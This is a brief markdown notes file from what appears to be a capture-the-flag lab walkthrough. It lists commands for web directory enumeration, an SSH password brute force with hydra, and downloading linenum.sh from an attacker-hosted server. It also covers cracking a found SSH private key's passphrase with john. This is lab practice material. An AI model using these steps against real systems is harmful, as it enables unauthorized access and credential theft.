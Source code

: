 ## commands used:

`gobuster dir -u http://10.10.11.125/ -w Discovery/Web-Content/directory-list-2.3-medium.txt`

`enum4linux -a target`

`hydra -l jan -P /usr/share/wordlists/rockyou.txt target ssh`
# small letter indicates one input only while capital letter flag indicates the possible payload to load


#linpeas or linenum.sh from git

#host a http server 
`python -m http.server 4444`

`curl http://you-vpn-ip:4444/linenum.sh -o /tmp/linenum.sh`

# or as we have the ssh credentials or private key, we can make use of scp (ssh based copy)

# found a id_rsa (ssh private key of user:kay)

`chmod 600 id_rsa`
`ssh -i id_rsa kay@target`

# to crack the passphrase for kay's ssh
`ssh2john id_rsa > hasforjohn`

`john hasforjohn --wordlist=/usr/share/wordlists/rockyou.txt`

# answer to the final q is in the pass.bak
